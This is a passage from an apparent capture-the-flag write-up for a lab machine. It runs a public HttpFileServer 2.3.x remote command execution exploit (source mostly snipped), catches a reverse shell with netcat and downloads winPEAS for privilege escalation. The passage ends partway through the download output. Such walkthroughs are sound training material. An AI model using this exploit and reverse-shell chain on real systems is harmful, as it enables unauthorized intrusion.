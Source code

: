 <br />
Update the script with the ip address and port for the attack.

{% raw %}
```python
#!/usr/bin/python
# Exploit Title: HttpFileServer 2.3.x Remote Command Execution
# Google Dork: intext:"httpfileserver 2.3"
# Date: 04-01-2016
# Remote: Yes

<snip>

    ip_addr = "10.10.30.38" #local IP address
	local_port = "443" # Local Port number

<snip>
```
{% endraw %}

<br />
Run the exploit twice.  One time transfers the nc.exe to the victim.  One time for the exploit.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/thm/steelmountain]
└─$ python2 exploit.py 10.10.109.201 8080
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/thm/steelmountain]
└─$ python2 exploit.py 10.10.109.201 8080
```
{% endraw %}

<br />
Check the listener and catch the shell.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/thm/steelmountain]
└─$ sudo nc -nlvp 443                         
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.4.119.29] from (UNKNOWN) [10.10.109.201] 49342
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>
```
{% endraw %}

<br />
Download winpeas.exe to the local working folder.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/thm/steelmountain]
└─$ wget https://github.com/peass-ng/PEASS-ng/releases/download/20250223-a8d560c8/winPEASany.exe -O winpeas.exe
--2025-02-26 00:13:40--  https://github.com/peass-ng/PEASS-ng/releases/download/20250223-a8d560c8/winPEASany.exe
Resolving github.com (github.com)... 4.237.22.38
Connecting to github.com (github.com)|4.237.22.38|:443... connected.
HTTP request sent, awaiting response... 302 Found
```